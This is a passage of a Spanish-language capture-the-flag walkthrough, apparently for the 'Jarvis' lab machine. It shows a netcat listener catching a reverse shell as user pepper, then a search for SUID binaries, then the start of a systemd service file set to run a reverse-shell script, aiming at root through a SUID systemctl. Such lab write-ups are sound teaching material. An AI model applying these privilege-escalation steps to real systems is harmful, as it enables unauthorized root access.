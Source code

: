 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.143] 39848
pepper@jarvis:/dev/shm$ whoami
whoami
pepper
pepper@jarvis:/dev/shm$
```

Ya nos encontramos dentro de la máquina como el usuario **pepper** y podemos visualizar la flag (user.txt). Ahora nos falta convertirnos en el usuario **root**; pero antes, vamos a hacer nuestro [Tratamiento de la tty](/posts/tratamiento-tty) para trabajar mejor. Enumeraremos un poco el sitema a ver que hay:

```bash
pepper@jarvis:~$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:~$ sudo -l
[sudo] password for pepper: 
pepper@jarvis:~$ cd /
pepper@jarvis:/$ find \-perm -4000 2>/dev/null
./bin/fusermount
./bin/mount
./bin/ping
./bin/systemctl
./bin/umount
./bin/su
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/gpasswd
./usr/bin/chsh
./usr/bin/sudo
./usr/bin/chfn
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:/$
```

Vemos el binario `/bin/systemctl` tiene permisos SUID, por lo que podríamos ejecutarlo como el propietario del archivo, en este caso **root**

```bash
pepper@jarvis:/$ ls -l /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
pepper@jarvis:/$
```

Asi que vamos a crearnos un servicio y en caso de no saber como, podríamos echarle un ojo al siguiente recurso [Tecmint](https://www.tecmint.com/create-new-service-units-in-systemd/). Asi que en el directorio home del usuario **pepper** vamos a crear un directorio y dentro el archivo que necesitamos en donde le indicamos que ejecute nuestra reverse shell en `/dev/shm/`.

```bash
pepper@jarvis:/$ cd /home/pepper/
pepper@jarvis:~$ mkdir privesc
pepper@jarvis:~$ cd !$
cd privesc
pepper@jarvis:~/privesc$ nano privesc.service
pepper@jarvis:~/privesc$ cat privesc.service 
[Unit]
Description = Privesc

[Service]
Type=oneshot
ExecStart = /dev/shm/shell.sh

```